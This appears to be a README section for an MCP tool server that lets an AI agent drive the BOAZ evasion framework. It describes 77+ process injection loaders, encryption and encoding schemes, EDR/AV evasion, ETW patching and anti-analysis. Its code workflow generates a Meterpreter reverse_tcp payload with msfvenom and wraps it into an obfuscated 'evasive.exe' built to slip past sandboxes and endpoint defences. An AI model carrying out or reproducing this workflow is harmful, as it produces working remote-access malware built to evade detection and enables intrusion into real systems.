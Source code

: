 - **77+ Process Injection Loaders** - Syscall, stealth, memory guard, threadless, and VEH/VCH techniques
- **12 Encoding Schemes** - AES, ChaCha20, UUID, XOR, MAC, RC4, and more
- **EDR/AV Evasion** - API unhooking, ETW patching, LLVM obfuscation (Akira/Pluto)
- **Anti-Analysis** - Anti-emulation checks, sleep obfuscation, entropy reduction
- **Binary Analysis** - Entropy analysis and optimization for heuristic evasion

### BOAZ MCP Tools

**Critical Workflow** (files MUST be in BOAZ_beta directory):

```python
# STEP 1: Ask user what type of evasion they need
# User: "I need to bypass EDR userland hooks"

# STEP 2: List syscall loaders (bypass EDR hooks)
boaz_list_loaders(category="syscall")
# Returns loaders 1-11 with direct syscall techniques

# STEP 3: Generate initial payload with MSFVenom
msfvenom_scan(
    payload="windows/x64/meterpreter/reverse_tcp",
    lhost="192.168.1.100",
    lport=4444,
    output="payload.exe"  # Creates payload.exe
)

# STEP 4: Move payload to BOAZ_beta directory (REQUIRED!)
# Run this manually: cp payload.exe BOAZ_beta/

# STEP 5: Apply BOAZ evasion with appropriate loader
result = boaz_generate_payload(
    input_file="payload.exe",          # File inside BOAZ_beta/
    output_file="output/evasive.exe",  # Will be in BOAZ_beta/output/
    loader=3,                           # Sifu Syscall (direct syscall)
    encoding="uuid",                    # UUID encoding
    anti_emulation=True,                # Evade sandboxes
    etw=True,                           # ETW patching
    api_unhooking=True,                 # API unhooking
    sleep=True                          # Sleep evasion
)

# STEP 6: Check if compilation succeeded
# If result['success'] == False, try a different loader from the same category
# Result: BOAZ_beta/output/evasive.exe (~500KB, heavily obfuscated)
```

**Other BOAZ Tools:**

```python
# List available loaders by category
boaz_list_loaders(category="stealth")

# Analyze binary entropy
boaz_analyze_binary(file_path="payload.exe")  # Must be in BOAZ_beta/

# List encoding schemes
boaz_list_encoders()

# Validate configuration
boaz_validate_options(loader=16, encoding="uuid")
```
